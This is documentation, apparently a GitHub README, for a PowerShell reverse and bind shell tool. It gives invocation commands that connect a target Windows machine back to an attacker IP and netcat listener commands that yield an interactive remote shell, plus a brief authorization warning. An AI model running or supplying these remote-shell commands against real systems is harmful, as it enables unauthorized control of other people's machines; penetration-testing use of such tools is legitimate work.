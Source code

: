 # PowerShell Reverse Shell Script - Documentation

## Overview

This script, developed by **dpckah001**, is a PowerShell-based reverse shell and bind shell utility. It allows you to remotely control a Windows machine by connecting back to an attacker machine (reverse shell) or by listening for incoming connections (bind shell).

## Features

- **Reverse Shell**: The target system connects back to the attacker's machine, allowing the attacker to send commands and receive output.
- **Bind Shell**: The target system opens a port and listens for incoming connections from the attacker.
- Compatible with standard tools such as Netcat.
- Customizable IP address and port.
- Real-time command execution with interactive PowerShell prompt.

## Usage

The script supports two primary modes:
- **Reverse Shell**: Connects back to a listener running on the attacker's machine.
- **Bind Shell**: Opens a port on the target system and waits for incoming connections.

### Parameters

- `-IPAddress`: The IP address to connect to (for reverse shell).
- `-Port`: The port to connect to or listen on.
- `-Reverse`: Switch to enable reverse shell mode.
- `-Bind`: Switch to enable bind shell mode.

### Requirements

- Windows system with PowerShell support.
- A listener on the attacker's machine (Netcat or similar).

## Examples

### Reverse Shell

In this example, the script runs on the target machine and connects back to the attacker's machine at IP `192.168.1.100` on port `4444`.

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress "192.168.1.100" -Port 4444
```

On the attacker's machine, you need to set up a listener:

```bash
nc -lvnp 4444
```

Once the connection is established, the attacker can interact with the target machine using PowerShell commands.

### Bind Shell

This example demonstrates running the script in bind mode, where it listens for incoming connections on port `4444`.

```powershell
Invoke-PowerShellTcp -Bind -Port 4444
```

The attacker can then connect to the target machine's IP and port:

```bash
nc <target IP address> 4444
```

Once connected, the attacker will receive an interactive PowerShell shell.

## How to Use

1. **Reverse Shell**: Use the `-Reverse` switch along with the attacker's IP and port to connect back.
   
   Example:
   ```powershell
   Invoke-PowerShellTcp -Reverse -IPAddress "192.168.1.100" -Port 4444
   ```

2. **Bind Shell**: Use the `-Bind` switch to listen on a specified port.
   
   Example:
   ```powershell
   Invoke-PowerShellTcp -Bind -Port 4444
   ```

3. On the attacker's machine, use `Netcat` (or a similar tool) to set up a listener for reverse shells or connect to bind shells.

4. After the connection is established, commands can be sent to the target system, and results will be returned interactively.

## Error Handling

If any issues arise during the connection or execution of commands, the script will attempt to handle errors and output relevant error messages. Examples of potential errors include:
- Failed connection to the target IP and port.
- Command execution errors on the target system.

## Notes

- **Security Warning**: This script is a potentially dangerous tool if used maliciously. Ensure you have authorization to run this script on any target system.
- **Legal Use**: This script should only be used for legitimate security assessments and with permission from the system's owner.

## Credits

Developed by **dpckah001**.

## Presentation effect

![./1.PNG]()

![./2.PNG]()
